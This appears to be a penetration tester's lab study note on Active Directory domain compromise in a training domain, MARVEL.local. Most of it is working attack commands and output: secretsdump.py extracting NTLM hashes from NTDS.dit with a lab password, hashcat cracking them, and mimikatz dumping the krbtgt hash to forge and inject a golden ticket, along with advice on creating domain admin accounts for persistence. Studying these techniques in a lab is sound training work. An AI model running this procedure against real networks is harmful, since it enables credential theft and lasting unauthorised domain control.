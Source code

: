 ## Domain Compromise
Dump NTDS.dit and crack passwords  
Enumerate shares for sensitive info  
### Persistence 
What happens if our DA access is lost?  
Creating a DA account can be useful  (don't forget to delete it)  
Creating a golden ticket can be useful to  

### secretsdump
`secretsdump.py MARVEL.local/tstark:'Password12345'@192.168.176.121 -just-dc-ntlm`  : Dump NTDS, DA required  #secretsdump 

```shell
└─$ secretsdump.py MARVEL.local/tstark:'Password12345'@192.168.176.121 -just-dc-ntlm
Administrator:500:aad3b435b51404eeaad3b435b51404ee:884e12e26b49c8c6ea2643d5db6153e7:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:dc14462826adfb96de12ccd993c32abf:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:9bff06fe611486579fb74037890fda96:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

 First hash is LM, Second part is NTLM  
 Can copy and paste to excel with ":" delimiter, OR :   
```shell
cat ntdsdit.txt| cut -d ":" -f 4 > hashes.txt`   
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt    
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt   --show  
```

Put cracked hashes on a separate excel sheet
On main sheet with hashes and user name, create formula in new CELL for Vlookup
=vlookup ( 
    - click hash value, 
    - type comma, 
    then select entire sectino/table array from other sheet
    - , 2, false
    =VLOOKUP(C1,Sheet2!A:B,2,FALSE)
Once complete, to remove formatting and keep data.
Copy column, right click, paste special, as values

### Golden Ticket
krbtgt account compromise  #golden
Need krbtgt NT LM Hash
Need domain SID  
PTT after getting golden ticket  #mimikatz 
mimikatz#  kerberos::golden /User:Administrator /domain:MARVEL.local /sid: /krbtgt:  /id:500 /ptt

```shell
mimikatz# privilege::debug
mimikatz# lsadump:: /inject /name:krbtgt

<< Output from the lsadump>>
User : krbtgt
Domain : MARVEL / S-1-5-21-242252404-3644089184-204408389
NTLM : dc14462826adfb96de12ccd993c32abf

mimikatz # kerberos::golden /User:AdministratorFakeFAKE /domain:MARVEL.local /sid:S-1-5-21-242252404-3644089184-204408389 /krbtgt:dc14462826adfb96de12ccd993c32abf /id:500 /ptt
User      : AdministratorFakeFAKE
Domain    : MARVEL.local (MARVEL)
SID       : S-1-5-21-242252404-3644089184-204408389
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: dc14462826adfb96de12ccd993c32abf - rc4_hmac_nt
Lifetime  : 11/10/2024 5:53:17 AM ; 11/8/2034 5:53:17 AM ; 11/8/2034 5:53:17 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'AdministratorFakeFAKE @ MARVEL.local' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6F8BBB7F0

## do something like psexec.exe \\THEPUNISHER cmd.exe 
```

